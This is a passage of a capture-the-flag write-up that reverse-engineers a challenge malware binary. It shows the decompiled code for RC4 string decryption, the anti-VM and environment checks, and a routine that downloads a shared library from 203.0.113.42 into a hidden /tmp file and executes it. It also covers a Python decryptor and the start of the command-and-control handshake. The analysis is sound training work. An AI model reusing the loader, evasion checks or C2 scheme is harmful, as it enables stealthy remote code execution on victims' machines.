  if (!bVar1) {
    download_and_execute_plugin(rc4_decrypt);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

From my renamed function names, we can see what this function is doing

[RC4](https://en.wikipedia.org/wiki/RC4) is a keystream cipher. It encrypts/decrypts data byte-by-byte by XORing it with a pseudorandom keystream

It initializes an RC4 internal state using `skibidi` as the key, preparing it to generate a keystream

```c
rc4_ksa(rc4_decrypt,"skibidi",7);
```

```c

void rc4_ksa(long param_1,long param_2,ulong param_3)

{
  int local_14;
  int i;
  int j;
  
  for (i = 0; i < 0x100; i = i + 1) {
    *(char *)(param_1 + i) = (char)i;
  }
  local_14 = 0;
  for (j = 0; j < 0x100; j = j + 1) {
    local_14 = (int)((uint)*(byte *)(param_1 + j) + local_14 +
                    (uint)*(byte *)(param_2 + (ulong)(long)j % param_3)) % 0x100;
    std::swap<>((uchar *)(param_1 + j),(uchar *)(local_14 + param_1));
  }
  *(undefined4 *)(param_1 + 0x100) = 0;
  *(undefined4 *)(param_1 + 0x104) = 0;
  return;
}
```

It uses this keystream to decrypt a bunch of encrypted `DATS` in the binary. These `DATS` likely hold data that is sensitive for the binary, hence why they are encrypted. There are a couple `DATS` used in the check functions that are used to see if conditions are right for the malware to execute. You can see what exactly these checks are doing based on what I named the functions. I won't paste them here since they aren't that important. 


```c
  cVar2 = check_env_var_exists(rc4_decrypt);
    if (cVar2 == '\x01') {
      cVar2 = is_year_2024();
      if (cVar2 == '\x01') {
        cVar2 = is_root();
        if (cVar2 == '\x01') {
          cVar2 = file_contains_required_strings(rc4_decrypt);
          if (cVar2 == '\x01') {
            cVar2 = run_command_and_check_output(rc4_decrypt);
            if (cVar2 == '\x01') {
              bVar1 = false;
              goto LAB_00108e1d;
            }
```

The most important `DATS` appear to be used in this function

```c
  if (!bVar1) {
    download_and_execute_plugin(rc4_decrypt);
  }
```

Which as my name suggests, downloads and executes some kind of plugin

```c

bool download_and_execute_plugin(undefined8 param_1)

{
  char cVar1;
  uint16_t uVar2;
  int __fd;
  int iVar3;
  char *__cp;
  size_t __n;
  void *__buf;
  ssize_t sVar4;
  undefined8 uVar5;
  long lVar6;
  code *pcVar7;
  long in_FS_OFFSET;
  bool bVar8;
  sockaddr local_788;
  basic_string<> local_778 [32];
  basic_string<> local_758 [32];
  basic_string local_738 [32];
  basic_string<> local_718 [32];
  basic_string<> local_6f8 [32];
  basic_string local_6d8 [32];
  basic_string<> local_6b8 [32];
  Comms local_698 [112];
  basic_string local_628 [248];
  basic_ios<> abStack_530 [264];
  undefined local_428 [1032];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = socket(2,1,0);
  if (__fd < 0) {
    bVar8 = false;
  }
  else {
    assemble_path_helper(local_778,&DAT_0010d618,0xc,param_1);
    local_788.sa_data[6] = '\0';
    local_788.sa_data[7] = '\0';
    local_788.sa_data[8] = '\0';
    local_788.sa_data[9] = '\0';
    local_788.sa_data[10] = '\0';
    local_788.sa_data[11] = '\0';
    local_788.sa_data[12] = '\0';
    local_788.sa_data[13] = '\0';
    local_788.sa_family = 2;
    local_788.sa_data[0] = '\0';
    local_788.sa_data[1] = '\0';
    local_788.sa_data[2] = '\0';
    local_788.sa_data[3] = '\0';
    local_788.sa_data[4] = '\0';
    local_788.sa_data[5] = '\0';
    uVar2 = htons(0x1f90);
    local_788.sa_data._0_2_ = uVar2;
    __cp = (char *)std::__cxx11::basic_string<>::c_str();
    iVar3 = inet_pton(2,__cp,local_788.sa_data + 2);
    if (iVar3 < 1) {
                    /* try { // try from 00108043 to 001080b0 has its CatchHandler @ 00108534 */
      close(__fd);
      bVar8 = false;
    }
    else {
      iVar3 = connect(__fd,&local_788,0x10);
      if (iVar3 < 0) {
        close(__fd);
        bVar8 = false;
      }
      else {
        assemble_path_helper(local_758,&DAT_0010d630,0x14,param_1);
                    /* try { // try from 001080cc to 00108156 has its CatchHandler @ 0010851c */
        std::operator+(local_628,(char *)local_758);
        std::__cxx11::basic_string<>::operator=(local_758,local_628);
        std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_628);
        __n = std::__cxx11::basic_string<>::length();
        __buf = (void *)std::__cxx11::basic_string<>::c_str();
        send(__fd,__buf,__n,0);
        assemble_path_helper(local_738,&DAT_0010d644,5,param_1);
                    /* try { // try from 00108177 to 0010817b has its CatchHandler @ 00108504 */
        assemble_path_helper(local_718,&DAT_0010d649,1,param_1);
                    /* try { // try from 0010819c to 001081a0 has its CatchHandler @ 001084ec */
        assemble_path_helper(local_6f8,&DAT_0010d650,0x10,param_1);
                    /* try { // try from 001081bc to 001081c0 has its CatchHandler @ 001084d4 */
        std::operator+(local_628,local_738);
                    /* try { // try from 001081dc to 001081e0 has its CatchHandler @ 0010845c */
        std::operator+(local_6d8,local_628);
        std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_628);
                    /* try { // try from 00108209 to 0010820d has its CatchHandler @ 001084bc */
        std::basic_ofstream<>::basic_ofstream(local_628,(_Ios_Openmode)local_6d8);
                    /* try { // try from 0010821e to 00108339 has its CatchHandler @ 001084a4 */
        cVar1 = std::basic_ios<>::operator!(abStack_530);
        if (cVar1 == '\0') {
          while( true ) {
            sVar4 = recv(__fd,local_428,0x400,0);
            if (sVar4 < 1) break;
            std::basic_ostream<>::write((char *)local_628,(long)local_428);
          }
          if (sVar4 < 0) {
            std::basic_ofstream<>::close();
            close(__fd);
            bVar8 = false;
          }
          else {
            std::basic_ofstream<>::close();
            close(__fd);
            uVar5 = std::__cxx11::basic_string<>::c_str();
            lVar6 = dlopen(uVar5,0x102);
            if (lVar6 == 0) {
              bVar8 = false;
            }
            else {
              assemble_path_helper(local_6b8,&DAT_0010d660,0xe,param_1);
              uVar5 = std::__cxx11::basic_string<>::c_str();
              pcVar7 = (code *)dlsym(lVar6,uVar5);
              bVar8 = pcVar7 != (code *)0x0;
              if (bVar8) {
                    /* try { // try from 0010838f to 00108393 has its CatchHandler @ 0010848c */
                Comms::Comms(local_698);
                    /* try { // try from 001083a5 to 001083a6 has its CatchHandler @ 00108474 */
                (*pcVar7)(local_698);
                dlclose(lVar6);
                Comms::~Comms(local_698);
              }
              else {
                dlclose(lVar6);
              }
              std::__cxx11::basic_string<>::~basic_string(local_6b8);
            }
          }
        }
        else {
          close(__fd);
          bVar8 = false;
        }
        std::basic_ofstream<>::~basic_ofstream((basic_ofstream<> *)local_628);
        std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_6d8);
        std::__cxx11::basic_string<>::~basic_string(local_6f8);
        std::__cxx11::basic_string<>::~basic_string(local_718);
        std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_738);
        std::__cxx11::basic_string<>::~basic_string(local_758);
      }
    }
    std::__cxx11::basic_string<>::~basic_string(local_778);
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return bVar8;
}
```

There are a lot of `DATS` here, so the binary definitely wants to hide whatever these `DATS` decrypt to

Let's walk through what this function appears to be doing

It makes some kind of connection with socket programming with the IP it is connecting to being encrypted in `DAT_0010d618`

```c
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = socket(2,1,0);
  if (__fd < 0) {
    bVar8 = false;
  }
  else {
    assemble_path_helper(local_778,&DAT_0010d618,0xc,param_1);
    local_788.sa_data[6] = '\0';
    local_788.sa_data[7] = '\0';
    local_788.sa_data[8] = '\0';
    local_788.sa_data[9] = '\0';
    local_788.sa_data[10] = '\0';
    local_788.sa_data[11] = '\0';
    local_788.sa_data[12] = '\0';
    local_788.sa_data[13] = '\0';
    local_788.sa_family = 2;
    local_788.sa_data[0] = '\0';
    local_788.sa_data[1] = '\0';
    local_788.sa_data[2] = '\0';
    local_788.sa_data[3] = '\0';
    local_788.sa_data[4] = '\0';
    local_788.sa_data[5] = '\0';
    uVar2 = htons(0x1f90);
    local_788.sa_data._0_2_ = uVar2;
    __cp = (char *)std::__cxx11::basic_string<>::c_str();
    iVar3 = inet_pton(2,__cp,local_788.sa_data + 2);
    if (iVar3 < 1) {
                    /* try { // try from 00108043 to 001080b0 has its CatchHandler @ 00108534 */
      close(__fd);
      bVar8 = false;
    }
    else {
      iVar3 = connect(__fd,&local_788,0x10);
      if (iVar3 < 0) {
        close(__fd);
        bVar8 = false;
      }
```

As we can see from my function renaming, I found a function that appears to be used to assemble a string or file path. I call this `assemble_path_helper`, which it uses to decrypt what is in the `DAT` and assemble some string or path with it. In this case, it is assembling an IP address most likely

For the next part, which is essentially the rest of the function, it sends some kind of request, recieves the response, writes the contents to some sort of file, with the file path being assembled with the below lines

```c
assemble_path_helper(local_738,&DAT_0010d644,5,param_1);
            /* try { // try from 00108177 to 0010817b has its CatchHandler @ 00108504 */
assemble_path_helper(local_718,&DAT_0010d649,1,param_1);
            /* try { // try from 0010819c to 001081a0 has its CatchHandler @ 001084ec */
assemble_path_helper(local_6f8,&DAT_0010d650,0x10,param_1);
```

It then dynamically loads the file (which means it is expecting to download a shared library) with `dlopen` and executes a function with `dlsym`, similar to what we've seen before

```c
  else {
    std::basic_ofstream<>::close();
    close(__fd);
    uVar5 = std::__cxx11::basic_string<>::c_str();
    lVar6 = dlopen(uVar5,0x102);
    if (lVar6 == 0) {
      bVar8 = false;
    }
    else {
      assemble_path_helper(local_6b8,&DAT_0010d660,0xe,param_1);
      uVar5 = std::__cxx11::basic_string<>::c_str();
      pcVar7 = (code *)dlsym(lVar6,uVar5);
      bVar8 = pcVar7 != (code *)0x0;
      if (bVar8) {
            /* try { // try from 0010838f to 00108393 has its CatchHandler @ 0010848c */
        Comms::Comms(local_698);
            /* try { // try from 001083a5 to 001083a6 has its CatchHandler @ 00108474 */
        (*pcVar7)(local_698);
        dlclose(lVar6);
        Comms::~Comms(local_698);
      }
      else {
        dlclose(lVar6);
      }
      std::__cxx11::basic_string<>::~basic_string(local_6b8);
    }
  }
}     
```

Again, a lot of the important details (like what the IP is, what request was sent, the file path, what function was executed, etc.) are encrypted in the `DATS`. 

What we really want is that file name, since the goal of this task is to find the "file path the malware uses to write a file"

We can mimic this decryption logic with Python, but we have to decrypt each `DAT` in order starting with the very first `DAT`, since that's how the RC4 algorithm works. 

Also, as for the contents of the `DATS` themselves, we can find them in Ghidra. Below is a small example:



The script I ended up making is below

```python

# Decrypt all DAT blobs in the exact runtime order shown in the malware's run() -> download flow.
# KSA runs once (key "skibidi"), PRGA output is consumed sequentially across DATs.
# Prints UTF-8 (if plausible), printable fallback, and hex. Also tries IPv4 interpretations.

from typing import List, Tuple
import socket, struct, re

KEY = b"skibidi"

# === DAT blobs here in the exact runtime order ===
# 1) check_path_exists -> DAT_0010d580
DAT_0010d580 = bytes([
    0xC7,0x16,0x75,0xC6,0x0F,0xC7,0x14,0x36,0x16,0xAF,0x4C,0x1D,0x34,0x01,0x41,0xBA,
    0xF9,0x22,0xB9,0xAC,0x42,0xA6,0xC7,0x07,0x00,0x09,0xF7,0x59,0xC9,0xE1,0x2E,0x63,
    0x77,0xF3,0xA0,0x71,0xDB,0x1F
])

# 2) check_env_var -> DAT_0010d5b0
DAT_0010d5b0 = bytes([
    0xD2,0x38,0xBD,0x57,0x18,0x9E,0xC1,0x37,0x5A,0xC9,0xB7,0xBF,0x93,0xDA,0xD3,0x4B,0xA4
])

# 3) file_contains_required_strings -> DAT_0010d5c8, DAT_0010d5d5, DAT_0010d5e0
DAT_0010d5c8 = bytes([0xD5,0x62,0xFB,0x65,0x4A,0x1A,0x46,0x03,0xBC,0xF4,0xAE,0x73,0x9E])
DAT_0010d5d5 = bytes([0xB4,0xB2,0xE4,0x8E,0x6D])
DAT_0010d5e0 = bytes([0x78,0xC8,0x50,0xA5,0x17,0x82,0x7A,0xFD,0xBB,0x88])

# 4) run_command_and_check_output -> DAT_0010d5f0, DAT_0010d60f, DAT_0010d610
DAT_0010d5f0 = bytes([0xF3,0x29,0x27,0xC9,0x62,0x3A,0x59,0x45,0x15,0x5F,0xBD,0xD9,0x75,0x84,0x79,0x7A,0x5F,0xAC,0x1E,0xA3,0x30,0x15,0x0C,0xFA,0x87,0x0C,0xC6,0x3A,0x26,0xD9,0x8B])
DAT_0010d60f = bytes([0x39])  # single byte '9' blob
DAT_0010d610 = bytes([0x4D,0x54,0x26,0x35])  # "MT&5" maybe part of the search string

# 5) download_and_execute_plugin -> DAT_0010d618, DAT_0010d630, DAT_0010d644, DAT_0010d649, DAT_0010d650
DAT_0010d618 = bytes([0x53,0xD9,0xC6,0xD8,0x09,0x82,0x27,0xCF,0xA1,0xDE,0x17,0x8A])
DAT_0010d630 = bytes([0xD2,0x20,0x8A,0x73,0x75,0x62,0xCB,0x5B,0xB5,0x65,0xDA,0x5F,0x74,0xB1,0xB5,0x4A,0x19,0x7D,0x57,0x92])
DAT_0010d644 = bytes([0x10,0xDB,0xF5,0x06,0x99])
DAT_0010d649 = bytes([0xC4])
DAT_0010d650 = bytes([0x44,0x14,0x7D,0x91,0xBD,0x05,0x5B,0xF5,0x64,0x56,0x4D,0x3E,0x33,0x37,0xBF,0x95])
DAT_0010d660 = bytes([
    0x5c, 0xf8, 0x80, 0x3d, 0xc8, 0x84, 0xfc, 0x82,
    0x5a, 0xaa, 0x1b, 0x13, 0x9c, 0xb2
])


ALL_DATS_ORDERED: List[Tuple[str, bytes]] = [
    ("DAT_0010d580", DAT_0010d580),
    ("DAT_0010d5b0", DAT_0010d5b0),
    ("DAT_0010d5c8", DAT_0010d5c8),
    ("DAT_0010d5d5", DAT_0010d5d5),
    ("DAT_0010d5e0", DAT_0010d5e0),
    ("DAT_0010d5f0", DAT_0010d5f0),
    ("DAT_0010d60f", DAT_0010d60f),
    ("DAT_0010d610", DAT_0010d610),
    ("DAT_0010d618", DAT_0010d618),
    ("DAT_0010d630", DAT_0010d630),
    ("DAT_0010d644", DAT_0010d644),
    ("DAT_0010d649", DAT_0010d649),
    ("DAT_0010d650", DAT_0010d650),
    ("DAT_0010d660", DAT_0010d660),
]

# === RC4 helpers ===
def rc4_ksa(key: bytes) -> List[int]:
    S = list(range(256))
    j = 0
    klen = len(key)
    if klen == 0:
        raise ValueError("empty key")
    for i in range(256):
        j = (j + S[i] + key[i % klen]) & 0xff
        S[i], S[j] = S[j], S[i]
    return S

def prga_generator(S: List[int]):
    i = 0
    j = 0
    while True:
        i = (i + 1) & 0xff
        j = (j + S[i]) & 0xff
        S[i], S[j] = S[j], S[i]
        yield S[(S[i] + S[j]) & 0xff]

# helpers to display
def printable_fallback(b: bytes) -> str:
    return ''.join(chr(x) if 32 <= x < 127 else '.' for x in b)

def looks_like_ipv4_text(b: bytes) -> bool:
    try:
        s = b.decode('ascii')
    except Exception:
        return False
    return re.fullmatch(r'(25[0-5]|2[0-4]\d|1?\d?\d)(\.(25[0-5]|2[0-4]\d|1?\d?\d)){3}', s) is not None

def try_packed_ipv4(b: bytes):
    res = []
    for off in range(max(1, len(b)-3)):
        part = b[off:off+4]
        if len(part) < 4:
            continue
        ip = socket.inet_ntoa(part)
        res.append((off, ip))
    return res

# decrypt sequence
def decrypt_sequence(blobs):
    S = rc4_ksa(KEY)
    gen = prga_generator(S)
    results = []
    for name, blob in blobs:
        out = bytes(b ^ next(gen) for b in blob)
        results.append((name, out))
    return results

if __name__ == "__main__":
    res = decrypt_sequence(ALL_DATS_ORDERED)
    for name, data in res:
        print("----", name, "len=", len(data))
        # try UTF-8
        try:
            s = data.decode('utf-8')
            print("UTF-8:", s)
        except Exception:
            print("printable:", printable_fallback(data))
        print("hex:", data.hex())
        # special attempts
        if name == "DAT_0010d618":
            if looks_like_ipv4_text(data):
                print("-> Looks like ASCII IPv4:", data.decode('ascii'))
            else:
                packed = try_packed_ipv4(data)
                if packed:
                    print("-> Possible packed IPv4 candidates (offset, ip):", packed)
        print()
```

In my above Python code, I explicitly state which function (remember I renamed them but you can check the before pasted `main` code for reference) each `DAT` comes from

Running the above script gets us:

```
---- DAT_0010d580 len= 38
UTF-8: /opt/dafin/intel/ops_brief_redteam.pdf
hex: 2f6f70742f646166696e2f696e74656c2f6f70735f62726965665f7265647465616d2e706466

---- DAT_0010d5b0 len= 17
UTF-8: DAFIN_SEC_PROFILE
hex: 444146494e5f5345435f50524f46494c45

---- DAT_0010d5c8 len= 13
UTF-8: /proc/cpuinfo
hex: 2f70726f632f637075696e666f

---- DAT_0010d5d5 len= 5
UTF-8: flags
hex: 666c616773

---- DAT_0010d5e0 len= 10
UTF-8: hypervisor
hex: 68797065727669736f72

---- DAT_0010d5f0 len= 31
UTF-8: systemd-detect-virt 2>/dev/null
hex: 73797374656d642d6465746563742d7669727420323e2f6465762f6e756c6c

---- DAT_0010d60f len= 1
UTF-8: r
hex: 72

---- DAT_0010d610 len= 4
UTF-8: none
hex: 6e6f6e65

---- DAT_0010d618 len= 12
UTF-8: 203.0.113.42
hex: 3230332e302e3131332e3432
-> Looks like ASCII IPv4: 203.0.113.42

---- DAT_0010d630 len= 20
UTF-8: GET /module HTTP/1.1
hex: 474554202f6d6f64756c6520485454502f312e31

---- DAT_0010d644 len= 5
UTF-8: /tmp/
hex: 2f746d702f

---- DAT_0010d649 len= 1
UTF-8: .
hex: 2e

---- DAT_0010d650 len= 16
UTF-8: dbBY1cfp0bCosNlL
hex: 64624259316366703062436f734e6c4c

---- DAT_0010d660 len= 14
UTF-8: execute_module
hex: 657865637574655f6d6f64756c65
```

Looks like the IP was `203.0.113.42`, the request it sent was `GET /module HTTP/1.1`, the function it executes is `execute_module`, and most importantly for us, the file path it writes a file to appears to be `/tmp/.dbBY1cfp0bCosNlL`

Sure enough, submitting `/tmp/.dbBY1cfp0bCosNlL` solves this task!

This was a really fun challenge, and was definitely my favorite of the 7

**Response:**
> Superb work unpacking and analyzing that Malware!

# Task 5 - Putting it all together - (Cryptanalysis)

> NSA analysts confirm that there is solid evidence that this binary was at least part of what had been installed on the military development network. Unfortunately, we do not yet have enough information to update NSA senior leadership on this threat. We need to move forward with this investigation!

> The team is stumped - they need to identify something about who was controlling this malware. They look to you. "Do you have any ideas?"

> Prompt: Submit the full URL to the adversary's server

### Solve:

Ah yes, the crypto task

Immediately, we can see that this task is pretty weird. It doesn't give us any new files. The solution to this task comes from what we have already found so far. 

To save the suspense, everything needed to solve this task comes from the pcap from task 2, and the last binary we found from task 4 (the binary that was inside the given binary)

We teased the interesting transmissions in task 2, but it appears that the goal of this task is to decrypt said transmissions:




We actually know where these encrypted messages came from (specifically the messages in red)

Going back to Ghidra our beloved, in the binary from task 4, there is a class named `Comms`

> Again, note that I have already renamed functions based on my analysis of what they do

In said class, there was a function that I name `full_handshake`, which appears to establish a connection, and does so in a certain way

```c

/* WARNING: Unknown calling convention -- yet parameter storage is locked */
/* Comms::full_handshake() */

undefined8 Comms::full_handshake(void)

{
  int iVar1;
  long lVar2;
  undefined8 uVar3;
  long in_RDI;
  
  lVar2 = recv_rsa_pubkey();
  *(long *)(in_RDI + 0x40) = lVar2;
  if (lVar2 != 0) {
    iVar1 = send_aes_keys();
    free(*(void **)(in_RDI + 0x40));
    if (iVar1 == 0) {
      uVar3 = application_handshake();
      return uVar3;
    }
  }
  return 1;
}
```

As we can see, it first receives an RSA public key, which we see in the Wireshark transmissions. 

It then sends AES keys to encrypt future transmissions, which it encrypts using the received RSA public key so that we can't see what the keys are

```c

/* WARNING: Unknown calling convention -- yet parameter storage is locked */
/* Comms::send_aes_keys() */

bool Comms::send_aes_keys(void)

{
  void *pvVar1;
  int iVar2;
  runtime_error *this;
  void *__buf;
  ssize_t sVar3;
  long i;
  int *in_RDI;
  undefined8 *puVar4;
  long in_FS_OFFSET;
  void *local_488;
  void *local_480;
  long local_478;
  int local_468;
  int iStack_464;
  int iStack_460;
  int iStack_45c;
  int local_458;
  int iStack_454;
  int iStack_450;
  int iStack_44c;
  undefined8 local_448 [129];
  long local_40;
  
  local_468 = in_RDI[5];
  iStack_464 = in_RDI[6];
  iStack_460 = in_RDI[7];
  iStack_45c = in_RDI[8];
  local_458 = in_RDI[9];
  iStack_454 = in_RDI[10];
  iStack_450 = in_RDI[0xb];
  iStack_44c = in_RDI[0xc];
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  puVar4 = local_448;
  for (i = 0x80; i != 0; i = i + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  rsa_encrypt((uchar *)&local_488,(int)in_RDI,(ulong *)&local_468);
  pvVar1 = local_488;
  if (local_480 == local_488) {
    __buf = calloc(1,6);
    __memcpy_chk(__buf,&DAT_0010a141,6,6);
    __memcpy_chk((long)__buf + 6,pvVar1,0);
                    /* try { // try from 001077db to 00107812 has its CatchHandler @ 0010785d */
    send(*in_RDI,__buf,6,0);
    free(__buf);
    sVar3 = recv(*in_RDI,local_448,0x400,0);
    iVar2 = is_correct_response((Comms *)in_RDI,(uchar *)local_448,(int)sVar3,
                                (uchar *)"KEY_RECEIVED",0xc);
    if (local_488 != (void *)0x0) {
      operator.delete(local_488,local_478 - (long)local_488);
    }
    if (local_40 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return iVar2 == 0;
  }
  this = (runtime_error *)__cxa_allocate_exception(0x10);
  std::runtime_error::runtime_error(this,"Error");
  if (local_40 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
                    /* WARNING: Subroutine does not return */
  __cxa_throw(this,&std::runtime_error::typeinfo,std::runtime_error::~runtime_error);
}
```

This corresponds to the first red message we see in the transmission because the message it sends appears to have some sort of header, which it prepends here

```c
__memcpy_chk(__buf,&DAT_0010a141,6,6);
```

The contents of `DAT_0010a141`?

```
    DAT_0010a141                                       
        0010a141 de              ??         DEh
        0010a142 c0              ??         C0h
        0010a143 de              ??         DEh
        0010a144 c0              ??         C0h
        0010a145 ff              ??         FFh
        0010a146 ee              ??         EEh
```

`dec0dec0ffee`, which is exactly what we see at the beginning of the first red message

```
00000000  de c0 de c0 ff ee 06 45  fe 6a 62 8d 85 36 4a 9b   .......E .jb..6J.
00000010  15 cc bf 46 18 cc dc 76  71 8e b8 4c 24 39 04 2c   ...F...v q..L$9.,
00000020  f3 04 55 d4 e3 37 ed 26  0a 04 d5 b9 5c f0 eb 6a   ..U..7.& ....\..j
00000030  e3 01 81 7d 32 60 bb ef  44 71 de 97 21 03 9f 8d   ...}2`.. Dq..!...
00000040  9a 8f a8 f1 49 fb 68 da  04 88 e7 de 0f 48 a7 b5   ....I.h. .....H..
00000050  e1 60 2a 86 23 1d 83 ab  70 9c 52 68 6e bb 9b b9   .`*.#... p.Rhn...
00000060  5d 2e a4 56 23 b0 ca 45  6c d4 4b a8 ac bd f8 97   ]..V#..E l.K.....
00000070  84 f9 55 30 de 1c fd 8c  62 0b d7 3d f0 64 a8 31   ..U0.... b..=.d.1
00000080  40 43 f6 9d cb 91 01 20  cf 63 ef bd 3f 68 1f 27   @C.....  .c..?h.'
00000090  9b 31 5d ce cf dd 37 b3  e8 37 85 72 7d 9e 77 21   .1]...7. .7.r}.w!
000000A0  7a 4b 72 77 da f1 32 93  2b e7 5c 6f de 1f 34 c3   zKrw..2. +.\o..4.
000000B0  c3 da f7 cd f6 60 05 63  ec 95 f3 85 63 4a cc 08   .....`.c ....cJ..
000000C0  f3 e2 96 f1 1c 55 72 08  fb a7 a0 0e 25 e4 25 55   .....Ur. ....%.%U
000000D0  4b 23 8f 77 6d 89 07 73  a5 ee e8 a5 65 45 01 16   K#.wm..s ....eE..
000000E0  61 96 cc 68 b7 cf 28 34  00 13 5d 05 51 b1 50 b8   a..h..(4 ..].Q.P.
000000F0  81 c6 4e 37 b2 01 98 b1  f7 1e 26 77 39 d4 36 fb   ..N7.... ..&w9.6.
00000100  46 1e 47 44 11 19                                  F.GD..
```

In this same `send_aes_keys` function, it checks to see if the response recieved was correct

```c
    sVar3 = recv(*in_RDI,local_448,0x400,0);
    iVar2 = is_correct_response((Comms *)in_RDI,(uchar *)local_448,(int)sVar3,
                                (uchar *)"KEY_RECEIVED",0xc);
```

With the correct response consisting of a message, `KEY_RECEIVED`

Well what do we see as the next message? (the second blue message)

```
    000001C9  de c0 de c0 ff ee 4b 45  59 5f 52 45 43 45 49 56   ......KE Y_RECEIV
    000001D9  45 44                                              ED
```

Exactly that. Then the remaining messages in the Wireshark transmission appear to be encrypted with the AES keys so we can't read them. However, we do have an idea of what they consist of. 

Looking back at `full_handshake`, we see that it calls a function that I call `application_handshake`

```c
    if (iVar1 == 0) {
      uVar3 = application_handshake();
      return uVar3;
    }
```

In this function, it sends a message and expects a response

```c

/* WARNING: Unknown calling convention -- yet parameter storage is locked */
/* Comms::application_handshake() */

bool Comms::application_handshake(void)

{
  int iVar1;
  uchar *puVar2;
  Comms *in_RDI;
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = 0;
  puVar2 = (uchar *)send_message(in_RDI,&DAT_0010a13a,7,&local_14);
  iVar1 = is_correct_response(in_RDI,puVar2,local_14,&DAT_0010a130,10);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return iVar1 == 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

`DAT_0010a13a`, which is the message, is the string `"REQCONN"`, and `DAT_0010a130` which is the response it's expecting, is `"REQCONN_OK"`. 



Also to save some time, I will just note that it expects both of these messages to have the same `dec0dec0ffee` header from before. `send_message` always prepends the hex `dec0dec0ffee` to the beginning of each message

This is very likely what the next two messages are in the transmission stream, but of course, they're encrypted



As for the last two messages, we have no idea what they are, and they probably have the juicy content 

```
00000126  02 db 7b d5 4f ed 23 d1  2d 48 59 9d e5 25 2d c6   ..{.O.#. -HY..%-.
